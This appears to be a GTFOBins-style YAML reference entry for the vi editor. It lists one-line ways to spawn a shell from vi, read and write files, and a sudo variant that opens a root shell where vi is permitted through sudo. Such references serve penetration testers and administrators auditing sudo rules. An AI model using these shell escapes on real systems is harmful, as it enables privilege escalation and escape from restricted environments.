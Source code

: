 description: Modern Unix systems run [`vim`](/gtfobins/vim/) binary when `vi` is called.
functions:
  shell:
    - code: vi -c ':!/bin/sh' /dev/null
    - code: |
        vi
        :set shell=/bin/sh
        :shell
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  sudo:
    - code: sudo vi -c ':!/bin/sh' /dev/null
---
